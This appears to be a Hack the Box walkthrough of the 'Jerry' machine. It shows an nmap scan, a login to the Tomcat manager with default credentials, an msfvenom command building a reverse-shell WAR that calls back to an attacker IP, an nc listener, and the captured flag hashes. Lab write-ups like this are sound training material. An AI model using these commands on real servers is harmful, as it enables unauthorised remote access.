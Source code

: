 # Jerry - Hack the Box - Report

first things first.

## Nmap scan

`nmap -p 1-65535 -T4 -A -v jerry`

    PORT     STATE SERVICE VERSION
    8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1

## Website Enumeration

I took a look around the website. I tried logging into the manager with some default creds. I simply googled tomcat default creds.

I got an error web page containing `tomcat:s3cret`

I tried this for logging into the manager and it worked.

### Manager

#### Findings

- OS: Windows Server 2012 R2
- JVM: 1.8.0_171-b11

I see that there is a way to upload a war file. I used msfvenom to create a payload

`msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.32 LPORT=4444 -f war > jerryhack.war
`

I setup a listener

` nc -lvnp 4444`

## Enumeration

That .war worked so we are on the windows box. I navigated to the Administrator directory.

I found a flags directory with a text file called `2 for the price of 1.txt`

    C:\Users\Administrator\Desktop\flags>type "2 for the price of 1.txt"
    type "2 for the price of 1.txt"
    user.txt
    7004dbcef0f854e0fb401875f26ebd00

    root.txt
    04a8b36e1545a455393d067e772fe90e
